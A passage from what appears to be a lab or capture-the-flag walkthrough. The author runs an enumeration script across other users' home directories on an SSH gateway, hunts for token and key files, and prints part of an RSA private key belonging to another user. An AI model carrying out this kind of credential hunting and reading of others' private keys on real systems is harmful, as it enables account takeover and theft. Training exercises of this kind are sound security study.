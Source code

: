 Once that's completed and successful, let's SSH back into the gw machine, navigate to __/vat/tmp__ and make sure all the files are there!

Also - just in case, let's also add "__token.txt__" into the __common.txt__ file if we happen to stumble upon a token.

```console
e.lindsey@tl10-ssh:/home$ cd /var/tmp/
e.lindsey@tl10-ssh:/var/tmp$ ls -a
.  ..  common.txt  dir_enum.py  .ipp  .n  names.txt  .sosat
e.lindsey@tl10-ssh:/var/tmp$ echo token.txt > common.txt 
```

## Extracting Private Data:

Awesome! We got our script, we know how it works, and we have all the files over on the gw machine!

From here give the script file execution permissions, and run it!

```console
e.lindsey@tl10-ssh:/var/tmp$ chmod +x dir_enum.py 
e.lindsey@tl10-ssh:/var/tmp$ ./dir_enum.py 
/data/users/a.modlin/
 [+] Directory Found /data/users/a.modlin/docs
 [+] File Found /data/users/a.modlin/docs/key
 [+] Directory Found /data/users/a.modlin/tmp
/data/users/e.lindsey/
/data/users/g.leone/
 [+] Directory Found /data/users/g.leone/files
/data/users/m.howard/
/data/users/rross/
 [+] Directory Found /data/users/rross/docs
 [+] File Found /data/users/rross/docs/token.txt
 [+] File Found /data/users/rross/docs/keys
 [+] Directory Found /data/users/rross/tmp
/data/users/s.locklear/
 [+] Directory Found /data/users/s.locklear/docs
 [+] Directory Found /data/users/s.locklear/files
 [+] Directory Found /data/users/s.locklear/tmp
```

Let's see what we have here.... I see that a.modlin and rross both have key files - so let's see what they are!

```console
e.lindsey@tl10-ssh:/var/tmp$ cat /data/users/a.modlin/docs/key
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwgMx4VoP4fW9cM2QClQk3b1hq7CcJ+22hNJ0mebh33qDbPW8
gPEMJxmfYyJJgaegPQ4TxGGYsrWZX7bhu3S9+MK2D4F7daudPfvKRbgmKjOp2HSK
V/llnXXwtBbjTffYkrRgnN3T9eo4wadtixsIF7ABztldd7DOdg8GTH5MisL4nqJ6
qBFzB3dWFvfYdW/BCNyKrR7pMPPTpWOeVhqfN/+tnfiZG26Wl9XlTz7PfvGWODqq
XnDPLSBlcRxTg0d8VXQEg4Rty4OB8d/4SQadGNdjxHBWu0I84+hkU/Wima1BYuAw
/xCl/vbea2rHchrKP5ORNlHc6SzLynbzyxgm1wIDAQABAoIBAGrGH1mKm1scR1oh
h7hnfrKaW3qGBCrlZKHMwWdB7eV0I4h/5XKBNtL+Av4oDJRSkJmJec+GdudDklle
6PSl1zdk0ZXPCQdFn5BRVozwP/DR5hO+b7TjCM2T7xjtz8NFN+flZZZvbwvUD9Bk
OKFqCxYeQ6B3eD07DSVkN285wx5KIZw7pGGpnT810rzLLMSdZtj3xlmUDeNkzGA1
0fSqZnb8NS3r08t3GNXNKqNCWjXhs3LTCYjGJAvaE+TU8mtcjsO3fsKosTPAMMcO
tthMmHG+bs2rafbtEKb+v5fqFHQCPhl195YKjkekpT287ro1Q+rFZ2Jeb8Vo6Ska
D+HNMMECgYEA7AoZnLgESe1xDcGhyxc5+Buj8tfChJ8RpWakF+d0tOy3+9WqvYfP
LkG0DadqroPMT+HLP08XEHbRvAhXHEymatFCdzTfpNGshh644rWwk/yoWE0ZxYvj
hjp6VNJLLFMuTsKFstHe0O5o/5DNzTnBuG75XFdFoX46XDZUvHQKISkCgYEA0mtG
HaMu7MswmXSqgPoWs2O77xGeF84U1N0YtrUVTG5orvTmIkZZyoiumdiDCMMTCdVE
i6dqAdBa3yHmoxFjPxwulO3Vu1hfDp/3twNBs9X7MwOLbvUecJCBzV2KdoQc/Aad
4p+JpI67CLanrW3WFnE6bdMq4QXB3otH/1NxB/8CgYAmmFAvy/cHj4eY1Dx8VMPp
ybs5DgaEYO4luW7DadkvbDV5PCq66uX5jky+ns1W074ooab2JxyCWKtar5Ju0imz
9ZuEmmSnMpGfLI7WoxbIW9u69IBuSL1fSViPXgNksAU2Y6Aw6Rgh2ZnZj/fWwsbm
PV8QtkRwb49jXI7mcaLmYQKBgDSdFCwm+H3HFMDaNiQH5JM4de6CRjiHlBfhrONK
```